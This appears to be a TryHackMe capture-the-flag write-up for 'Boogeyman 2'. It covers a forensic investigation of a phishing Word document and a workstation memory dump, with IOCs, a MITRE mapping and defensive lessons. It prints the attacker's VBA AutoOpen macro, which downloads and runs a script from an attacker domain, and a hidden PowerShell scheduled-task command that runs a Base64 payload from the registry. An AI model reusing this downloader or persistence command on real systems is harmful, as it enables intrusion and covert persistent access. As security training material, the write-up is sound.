# Boogeyman 2: The Return — CTF Writeup

* **Platform:** TryHackMe  
* **Room:** Boogeyman 2  
* **Category:** DFIR / Memory Forensics / Macro Analysis  
* **Difficulty:** Medium  
* **Analyst:** Mahmoud Hussien
* **Tools:** Volatility 3, olevba, strings, grep

---

## Scenario Overview

Quick Logistics LLC was targeted again by the **Boogeyman APT** group with upgraded TTPs. This time, the target was **Maxine Beck**, a Human Resources Specialist, who received a spear-phishing email containing a malicious Word document disguised as a job application resume. The document used embedded VBA macros to initiate a multi-stage infection chain, establishing a persistent fileless C2 mechanism using registry hijacking and scheduled tasks.

Two artefacts were provided:
- `Resume - Application for Junior IT Analyst Role.eml` — Phishing email copy
- `WKSTN-2961.raw` — Memory dump of the victim's workstation

---

## Process Tree Overview

```
WINWORD.EXE (PID: 1124)        ← Phishing attachment opened
    └─ wscript.exe (PID: 4260) ← Executes stage 2 (update.js)
           └─ updater.exe (PID: 6216) ← Live C2 connection
```

---

## Phase 1 — Phishing Email Analysis

### Question 1 — What email was used to send the phishing email?

```bash
cat "Resume - Application for Junior IT Analyst Role.eml" | grep "From: "
```

The sender used a spoofed identity of "Wesley Taylor" with a personal Outlook address to appear as a legitimate job applicant — a deliberate choice to target HR personnel who routinely open unsolicited resumes.

**Answer:**

```
westaylor23@outlook.com
```


---

### Question 2 — What is the email of the victim employee?

```bash
cat "Resume - Application for Junior IT Analyst Role.eml" | grep "To: "
```

**Answer:**

```
maxine.beck@quicklogisticsorg.onmicrosoft.com
```


---

### Question 3 — What is the name of the attached malicious document?

Reviewing the email attachment headers:

```bash
cat "Resume - Application for Junior IT Analyst Role.eml" | grep -i "filename"
```

**Answer:**

```
Resume_WesleyTaylor.doc
```


---

### Question 4 — What is the MD5 hash of the malicious attachment?

```bash
md5sum Resume_WesleyTaylor.doc
```

**Answer:**

```
52c4384a0b9e248b95804352ebec6c5b
```


---

## Phase 2 — VBA Macro Analysis

### Question 5 — What URL is used to download the stage 2 payload?

**Tool:** olevba

```bash
olevba Resume_WesleyTaylor.doc
```

The document contained an `AutoOpen()` macro that executes automatically when the victim opens the file. The macro:
1. Creates an HTTP request object
2. Downloads a file disguised as an image (`update.png`)
3. Saves it as `update.js` in `C:\ProgramData\`
4. Executes it via `wscript.exe`

Extracted VBA macro:

```vba
Sub AutoOpen()
  spath = "C:\ProgramData\"
  Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
  Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
  xHttp.Open "GET", "https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png", False
  xHttp.Send
  With bStrm
      .Type = 1
      .Open
      .write xHttp.responseBody
      .savetofile spath & "\update.js", 2
  End With
  Set shell_object = CreateObject("WScript.Shell")
  shell_object.Exec ("wscript.exe C:\ProgramData\update.js")
End Sub
```

The file is cloaked as a `.png` image to evade network-level content inspection, but is actually a JavaScript payload.

**Answer:**

```
https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png
```


---

### Question 6 — What is the name of the process that executed the stage 2 payload?

From the macro analysis, the last line calls `wscript.exe` to execute the downloaded JS file.

**Answer:**

```
wscript.exe
```


---

### Question 7 — What is the full file path of the stage 2 payload?

From the VBA macro, the file is saved at:

**Answer:**

```
C:\ProgramData\update.js
```


---

## Phase 3 — Memory Forensics (Volatility 3)

### Question 8 — What is the PID of the process that executed the stage 2 payload?

```bash
vol -f WKSTN-2961.raw windows.pstree
```

The process tree confirms `wscript.exe` was spawned by `WINWORD.EXE`:

**Answer:**

```
4260
```


---

### Question 9 — What is the parent PID of the process that executed the stage 2 payload?

From the same `windows.pstree` output, `wscript.exe` (PID: 4260) was spawned by `WINWORD.EXE`:

**Answer:**

```
1124
```


---

### Question 10 — What URL is used to download the malicious binary executed by stage 2?

```bash
strings WKSTN-2961.raw | grep "boogeymanisback.lol"
```

String carving the memory dump reveals `update.js` contacted the C2 staging domain to fetch the next-stage binary:

**Answer:**

```
https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe
```


---

### Question 11 — What is the PID of the malicious process used to establish the C2 connection?

```bash
vol -f WKSTN-2961.raw windows.netscan
```

Active network connections show a standalone process (`updater.exe`) with an outbound TCP connection to the C2 server:

**Answer:**

```
6216
```


---

### Question 12 — What is the full file path of the malicious process used for C2?

```bash
vol -f WKSTN-2961.raw windows.dlllist --pid 6216
```

The binary was placed inside `C:\Windows\Tasks\` — a writable system directory that blends in with legitimate Windows task scheduler storage.

**Answer:**

```
C:\Windows\Tasks\updater.exe
```


---

### Question 13 — What is the IP address and port of the C2 connection?

From the `windows.netscan` output for PID 6216:

**Answer:**

```
128.199.95.189:8080
```


---

### Question 14 — What is the full file path of the malicious email attachment based on the memory dump?

```bash
vol -f WKSTN-2961.raw windows.filescan | grep "Resume_WesleyTaylor"
```

The cached attachment path from Outlook's INetCache reveals where Windows stored the email attachment locally when Maxine opened it:

**Answer:**

```
C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc
```


---

### Question 15 — The attacker implanted a scheduled task right after establishing the c2 callback. What is the full command used by the attacker to maintain persistent access?

```bash
strings WKSTN-2961.raw | grep "schtasks"
```

The string extraction captured the exact persistence command executed immediately after the C2 callback was established:

**Answer:**

```
schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\"'
```


**Technical Breakdown:**

| Component | Purpose |
|---|---|
| `/SC DAILY /ST 09:00` | Runs every day at 9:00 AM |
| `/TN Updater` | Task named "Updater" to blend in |
| `-W hidden` | Hidden PowerShell window |
| `IEX` | Invoke-Expression — executes payload in memory |
| `FromBase64String(...)` | Decodes the payload at runtime |
| `gp HKCU:\...\CurrentVersion debug` | Reads encoded payload from registry |

This is a **fileless persistence** technique — nothing is written to disk. The actual malicious payload lives inside the registry key `HKCU:\Software\Microsoft\Windows\CurrentVersion` under the value `debug`, and is decoded and executed in memory at every trigger.

---

## Full Attack Chain Reconstruction

```
[1] Initial Access
    └─ Phishing email: westaylor23@outlook.com
    └─ Target: maxine.beck@quicklogisticsorg.onmicrosoft.com
    └─ Attachment: Resume_WesleyTaylor.doc
    └─ MD5: 52c4384a0b9e248b95804352ebec6c5b

[2] Execution — Stage 1 (VBA Macro)
    └─ AutoOpen() triggers on file open
    └─ Downloads: update.png → saved as update.js
    └─ Staging URL: https://files.boogeymanisback.lol/.../update.png
    └─ Executes: wscript.exe C:\ProgramData\update.js (PID: 4260)
    └─ Parent: WINWORD.EXE (PID: 1124)

[3] Execution — Stage 2 (update.js)
    └─ Downloads: update.exe
    └─ URL: https://files.boogeymanisback.lol/.../update.exe
    └─ Drops to: C:\Windows\Tasks\updater.exe

[4] Command & Control
    └─ updater.exe (PID: 6216) connects to C2
    └─ C2: 128.199.95.189:8080 (TCP)

[5] Persistence (Fileless)
    └─ Scheduled task: "Updater" — daily 09:00 AM
    └─ Payload stored in registry:
       HKCU:\Software\Microsoft\Windows\CurrentVersion (debug)
    └─ Executed via: PowerShell IEX + Base64 + Unicode decode
    └─ Zero files written to disk for the payload
```

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| Email | `westaylor23@outlook.com` | Attacker phishing address |
| MD5 | `52c4384a0b9e248b95804352ebec6c5b` | Malicious Word document |
| URL | `https://files.boogeymanisback.lol/.../update.png` | Stage 2 download (JS payload) |
| URL | `https://files.boogeymanisback.lol/.../update.exe` | Stage 3 binary download |
| IP:Port | `128.199.95.189:8080` | Active C2 server |
| File | `C:\ProgramData\update.js` | Stage 2 JavaScript payload |
| File | `C:\Windows\Tasks\updater.exe` | Stage 3 C2 binary |
| Registry | `HKCU:\Software\Microsoft\Windows\CurrentVersion debug` | Fileless payload storage |
| Task | `Updater` | Scheduled persistence task |

---

## Key Volatility Commands Reference

```bash
# Process tree — identify parent/child relationships
vol -f WKSTN-2961.raw windows.pstree

# Network connections — identify C2 activity
vol -f WKSTN-2961.raw windows.netscan

# DLL list for specific PID — identify binary path
vol -f WKSTN-2961.raw windows.dlllist --pid 6216

# File scan — locate attachment on disk
vol -f WKSTN-2961.raw windows.filescan | grep "Resume_WesleyTaylor"

# String carving — extract C2 domains and commands
strings WKSTN-2961.raw | grep "boogeymanisback.lol"
strings WKSTN-2961.raw | grep "schtasks"
```

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Initial Access | T1566.001 | Phishing: Spearphishing Attachment |
| Execution | T1204.002 | User Execution: Malicious File |
| Execution | T1059.005 | VBA Macro |
| Execution | T1059.007 | JavaScript (wscript.exe) |
| Execution | T1059.001 | PowerShell (IEX) |
| Defense Evasion | T1027 | Obfuscated Files or Information |
| Defense Evasion | T1036 | Masquerading (.png → .js) |
| Defense Evasion | T1564.003 | Hidden Window (-W hidden) |
| Persistence | T1053.005 | Scheduled Task |
| Persistence | T1112 | Modify Registry (fileless payload) |
| Command & Control | T1071.001 | Web Protocols (HTTP/S) |
| Command & Control | T1105 | Ingress Tool Transfer |

---

## Comparison: Boogeyman 1 vs Boogeyman 2

| Aspect | Boogeyman 1 | Boogeyman 2 |
|---|---|---|
| Target | Finance (Julianne) | HR (Maxine) |
| Attachment Type | LNK (fake spreadsheet) | DOC (fake resume) |
| Stage 1 Execution | PowerShell via LNK | VBA AutoOpen macro |
| Stage 2 | PowerShell download cradle | JavaScript (wscript.exe) |
| Persistence | None documented | Fileless registry + schtasks |
| Exfiltration | DNS tunneling (nslookup) | Not observed in this incident |
| C2 Method | HTTP polling loop | TCP 8080 (updater.exe) |
| Evasion Level | Medium | High (fileless, registry hijack) |

---

## Lessons Learned

1. **Block macro execution in Office documents** — Disable VBA macros by default via Group Policy. Only allow digitally signed macros from trusted publishers.
2. **Monitor wscript.exe spawning from Office processes** — `WINWORD.EXE` spawning `wscript.exe` is a high-confidence malicious indicator and should be an immediate EDR alert.
3. **Hunt for registry-based payloads** — Scan `HKCU:\Software\Microsoft\Windows\CurrentVersion` for unexpected value names. Base64 strings stored as registry values are a strong fileless persistence indicator.
4. **Alert on scheduled task creation** — Any new scheduled task created by a non-admin process should trigger an investigation.
5. **File extension mismatch** — A `.png` file containing JavaScript content should be blocked at the web proxy level via content-type inspection.
6. **Train HR teams specifically** — HR employees are high-value social engineering targets because opening unsolicited documents is part of their normal workflow.

---

*Writeup produced as part of SOC Analyst training — TryHackMe: Boogeyman 2*